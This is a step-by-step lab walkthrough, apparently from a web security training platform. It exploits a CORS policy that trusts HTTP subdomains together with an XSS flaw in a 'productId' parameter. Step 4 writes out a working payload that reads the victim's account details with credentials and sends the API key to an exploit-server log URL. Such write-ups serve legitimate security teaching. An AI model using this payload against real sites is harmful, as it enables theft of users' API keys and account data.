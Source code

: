 # 🛡️ Lab Guide: CORS Vulnerability with Trusted Insecure Protocols

This guide demonstrates how to exploit a **CORS vulnerability** that trusts insecure HTTP subdomains, combined with an **XSS vulnerability**, to retrieve a victim’s API key using **Burp Suite**. Let’s get started! 🚀

---

## 📋 Objective
Exploit a CORS misconfiguration that trusts HTTP subdomains and leverage an XSS vulnerability in the `productId` parameter to steal the victim’s API key.

---

## 🛠️ Tools Needed
- **Burp Suite** (with Burp’s browser)
- **Repeater** module in Burp Suite
- **Exploit Server** (provided in the lab environment)
- Basic understanding of CORS, XSS, and JavaScript payloads

---

## 📝 Step-by-Step Instructions

### 1️⃣ Log In and Capture the Request
- Ensure **Intercept** is off in Burp Suite.
- Use **Burp’s browser** to log in and access your account page.
- In **Proxy > HTTP history**, locate the AJAX request to `/accountDetails`.
- Observe the **Access-Control-Allow-Credentials: true** header, indicating CORS support.
- **Right-click** the request and select **Send to Repeater**.

### 2️⃣ Test for Subdomain Origin Reflection
- In **Repeater**, add the header:
  ```
  Origin: http://stock.0a34000c0433503980320344007d0086.web-security-academy.net
  ```
- Resubmit the request and check the response.
- **Observation**: The response includes `Access-Control-Allow-Origin: http://stock.0a34000c0433503980320344007d0086.web-security-academy.net`, confirming the server trusts arbitrary subdomains, including HTTP.

### 3️⃣ Identify XSS Vulnerability
- Open a **product page** in the browser and click **Check stock**.
- Observe that the request uses an **HTTP URL** on a subdomain (e.g., `http://stock.0a34000c0433503980320344007d0086.web-security-academy.net`).
- Note that the `productId` parameter is vulnerable to **XSS**.

### 4️⃣ Craft the Exploit
- Navigate to the **Exploit Server** in the browser.
- Enter the following HTML, replacing `0a34000c0433503980320344007d0086` and `YOUR-EXPLOIT-SERVER-ID` with your lab-specific URLs:
  ```html
  <script>
      document.location="http://stock.0a34000c0433503980320344007d0086.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a34000c0433503980320344007d0086.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a22009904a2508b8035024101a8002e.exploit-server.net/log?key='+this.responseText; };%3c/script>&storeId=1"
  </script>
  ```
- **Note**: The XSS payload in `productId` executes a script that makes a cross-origin request to `/accountDetails`.

### 5️⃣ Test and Deliver the Exploit
- Click **View exploit** to verify the exploit works. You should land on the log page with the API key in the URL.
- Go back to the **Exploit Server** and click **Deliver exploit to victim**.
- Access the **Access log**, retrieve the victim’s API key, and submit it to complete the lab.
